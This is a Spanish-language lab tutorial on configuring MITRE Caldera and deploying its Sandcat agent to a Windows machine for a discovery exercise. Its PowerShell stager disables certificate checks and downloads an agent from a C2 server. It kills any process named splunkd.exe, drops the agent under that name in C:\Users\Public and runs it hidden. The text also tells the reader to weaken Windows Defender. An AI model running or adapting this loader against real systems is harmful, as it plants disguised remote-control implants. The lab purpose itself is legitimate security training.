


# Configuración

Al loguearnos a la interfaz web, deberíamos acceder directamente al dashboard y obtener algo como lo siguiente


Por cuestiones de tiempo y practicidad, nos limitaremos a ejecutar un "Discovery & Collection". Es inofensivo pero muestra perfectamente cómo Caldera "piensa" y cómo el agente reporta en tiempo real. Para el lado agente (lo que corre del lado de la "víctima", desde el dashboard: Campaigns -> Agent -> Deploy an Agent. Deberíamos ver algo como lo siguiente:



Seleccionaremos "Sendcat" y colocaremos la URL de nuestro server en el primer campo, y dejaremos los otros dos en default. Caldera generará código a ejecutar en el Windows (en el se arbitran los medios, entre otras cosas, para descargar el agente.



El código generado y adaptado a nuestro certificado autofirmado resulta:

```
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};

$server="https://192.168.1.57:8443";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);

get-process | ? {$_.path -like "*splunkd.exe*"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;```

[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;`

# 2. AJUSTE: Se agregó el flag "-insecure" para que el agente confíe en el C2
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red -insecure -v" -WindowStyle hidden;
```
IMPORTANTE: Tanto Defender Firewall como Defender Threat Protection puede generar muchos problemas para correr el código. En función de las expectativas, deberán ajustarse ambas cosas para posibilitar el laboratorio.

Al correr el script, obtendremos lo siguiente en la sección de agentes en interfaz de Caldera

Foto: caldera9.png

Vemos el agente reportado existosamente. El paso siguiente es crear una operación para comenzar con el simulacro. Por cuestiones de simplicidad y tiempo, iremos por un sencillo discovery.

Accediendo a:

Campains -> operation -> nueva operación

Daremos de alta una operación con la siguiente configuración:

Group: "red" (El grupo en el que está el agente)
Adversary: "Discovery".

Por último, presionar "Start".

Puede apreciarse que ya se reconoce el host con sus datos, y hemos podido hacer una enumeración

Foto: caldera11.png
Foto: caldera10.png

